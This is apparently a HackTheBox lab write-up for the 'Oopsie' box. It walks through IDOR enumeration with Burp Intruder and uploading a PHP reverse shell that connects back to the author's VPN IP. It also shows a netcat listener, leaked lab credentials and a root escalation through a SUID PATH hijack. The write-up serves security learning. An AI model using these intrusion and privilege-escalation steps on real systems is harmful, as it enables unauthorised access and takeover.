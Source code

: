 # Oopsie
This is the second box of the ‘Starting Point’ path from HackTheBox (a series of 9 boxes rated Very Easy).

![Oopsie](../Images/htb_oopsie_1.png)

**Tools: nmap, Burp Suite, gobuster, netcat.**

First of all, we can run a nmap scan — this machine’s IP is 10.10.10.28:  
`nmap -n -sSV -sC -Pn 10.10.10.28`

![Oopsie](../Images/htb_oopsie_2.png)

We can see that the ports 22 (ssh) and 80 (http) are open. Let’s investigate the http service, so we open Firefox and go to http://10.10.10.28:80

![Oopsie](../Images/htb_oopsie_3.png)

The website above doesn’t take us anywhere when we click in the options, so we should investigate it further using Burp Suite as our proxy.  
 We simply open Burp Suite and make sure that the ‘Intercept’ option under the ‘Proxy’ tab is set to ‘On’.  
  Now we go to the Firefox ‘Network settings’, and enable ‘Manual Proxy’, set it to 127.0.0.1, port 8080 and check the option below it (‘Also use this proxy for FTP and HTTPS’).  
 Next up, we refresh the website and check Burp, tab ‘Site map’ under ‘Target’.  
 (From now on, every time we refresh/change pages in our browser, we’ll need to click on the ‘Forward’ button at the ‘Intercept’ tab under ‘Proxy’.)

![Oopsie](../Images/htb_oopsie_4.png)

We see this ‘cdn-cgi’ directory, and under it there’s a ‘login’ directory. Upon accessing it (http://10.10.10.28/cdn-cgi/login/) we see a login form.

![Oopsie](../Images/htb_oopsie_5.png)

So, remember the previous box, Archetype? We should try some of those credentials. The ‘administrator’ username doesn’t work, but if we try ‘admin’ and the password ‘MEGACORP_4dm1n!!’ we successfully access the website’s administration section.

![Oopsie](../Images/htb_oopsie_6.png)

After taking a look around, we see that the ‘Uploads’ section can only be accessed by a ‘super admin’.

![Oopsie](../Images/htb_oopsie_7.png)

So, back to Burp. If we access the ‘Account’ tab in the website, we’ll see a request at the ‘Intercept’ tab in Burp, and some curious information.

![Oopsie](../Images/htb_oopsie_8.png)

Apparently, each user has an account ID and an User ID associated. We could try to manipulate this, to find out the IDs of the ‘super admin’ user. To do that on Burp, click on Ctrl+i to transfer this request information to the ‘Intruder’ tab. Under ‘Intruder’, go to the ‘Positions’ tab and click on the ‘Clear’ button on the far right, select the ‘1’ after the ID (first row of the request) and click on the ‘Add’ button. This way we’ll run a loop on this ID field, so we can test the responses and find the super admin. Now go to the ‘Payloads’ tab. I recommend creating a file with a list of IDs, from 1 to 100 — run this command in your terminal, and after that click on ‘Load…’ under ‘Payload Options’ and select the file you’ve just created.  
`for x in $(seq 1 100);do echo $x;done > ids.txt`

![Oopsie](../Images/htb_oopsie_9.png)

Next up, go to the ‘Options’ tab, and at the bottom of the page under ‘Redirections’, select ‘Always’ to Follow redirections, and check the ‘Process cookies in redirections’ box.

![Oopsie](../Images/htb_oopsie_10.png)

Now we just need to go back to the ‘Target’ tab and click on ‘Start Attack’. Another window will be open and the results will start to show up. If we order the results by ‘Length’, we notice that there are a few results with different lengths, and the request number 30 is on the top of the list.

![Oopsie](../Images/htb_oopsie_11.png)

If we select the request 30 and click on ‘Response’ under the list of requests, we can inspect the code. By the end of the response, we’ll be able to see the following information:

![Oopsie](../Images/htb_oopsie_12.png)

So that’s it, the ‘super admin’ ID is 86575, and from now on, everytime we need to Forward a request in Burp, before doing so, we need to change the ID after ‘user=’ to this one we’ve just found.

![Oopsie](../Images/htb_oopsie_13.png)

Now we can use this ID to access the ‘Uploads’ on the website. Upon doing so, we see a file upload form.

![Oopsie](../Images/htb_oopsie_14.png)

I’ve downloaded and extracted a php reverse shell from [pentestmonkey.net](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), edited the file php-reverse-shell.php and changed the IP field to my HTB VPN IP (10.10.15.54) and the port to a random one (10666). Now we just need to upload the file, remembering to change the ‘user=’ to 86575 every time we need to forward a request.

![Oopsie](../Images/htb_oopsie_15.png)

To find out where the uploaded files go, I ran a quick gobuster:  
`gobuster dir -u http://10.10.10.28 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![Oopsie](../Images/htb_oopsie_16.png)

The files are probably at /uploads then…let’s set our netcat listening session in the terminal and try to access the reverse shell file from the browser, changing the ‘user’ as always to 86575:  

**Terminal:**  
`nc -vnlp 10666`

**Browser:**  
`http://10.10.10.28/uploads/php-reverse-shell.php`

![Oopsie](../Images/htb_oopsie_17.png)

We have a shell, but it’s a simple (dumb) shell. To upgrade it to a fully interactive shell, I quickly checked if the box had python installed. ‘python -V’ returned an error, but ‘python3 -V’ returned the Python3 version. With that in mind, I’ve used the command below to quickly upgrade my shell:  
`python3 -c ‘import pty; pty.spawn(“/bin/bash”)’`

The official walkthrough suggest the commands below, I’m posting it here as an option:  
```
SHELL=/bin/bash script -q /dev/null  
Ctrl-Z  
stty raw -echo  
fg  
reset  
xterm  
```

Upon checking it, we see that we’re logged in as www-data, so we can take a look into some folders, and eventually find the user.txt file containing the User flag, under /home/robert/

![Oopsie](../Images/htb_oopsie_18.png)

But besides that, we’re pretty stuck with this user. We should check the website’s folders at /var/www/html. After spending some time, we find the folder /cdn-cgi/login/ that contains some interesting files.

![Oopsie](../Images/htb_oopsie_19.png)

Quickly checking them reveals that the ‘db.php’ file has another user’s credentials saved.

![Oopsie](../Images/htb_oopsie_20.png)

So let’s access Robert’s user, providing the password found.  
`su robert`

![Oopsie](../Images/htb_oopsie_21.png)

Upon checking its id, we see that this user is part of a ‘bugtrack’ group. We should check what files this group has access to:  
`find / -type f -group bugtracker 2> /dev/null`

![Oopsie](../Images/htb_oopsie_22.png)

So we find the binary file ‘bugtracker’. Right away we notice that it has SUID permissions (the ‘s’ in the user ‘execute’ field, it runs ‘as’ its creator, in this case, root), we can run it to test. When it asks us for an ID, we can insert a random number just to see what it does.

![Oopsie](../Images/htb_oopsie_23.png)

There’s not much info in here, so a good option is to see what the binary does when you run it. We do so by checking its strings:  
`strings /usr/bin/bugtracker`

There’s the ‘cat /root/reports’ row that grabs our attention right away. We could abuse this to escalate our privileges. The official walkthrough explains this very well:  

“We see that it calls the cat binary using this relative path instead of the absolute path. By creating a malicious cat , and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root. Let’s add the current working directory to PATH, create the malicious binary and make it executable.”  
```
export PATH=/tmp:$PATH  
cd /tmp/  
echo ‘/bin/sh’ > cat  
chmod +x cat
```

And then we run the binary once again…

![Oopsie](../Images/htb_oopsie_24.png)

So now we’re root!  
At this point, I couldn’t read any files anymore in that shell, so I simply ran a ‘vim /root/root.txt’ and grabbed the root flag from inside the file.  

Through further enumeration of the box, we can find FTP credentials that can be useful in the next boxes of the Starting Point path:  
```
/root/.config/FileZilla  
ftpuser  
mc@F1l3ZilL4
```

![Oopsie](../Images/htb_oopsie_25.png)

**That’s all for now!**  
 We’ll keep in mind that some of the info collected (like credentials, folders…) can be useful in the next 7 labs of the ‘Starting Point’ path. Thanks for reading and keep hacking!
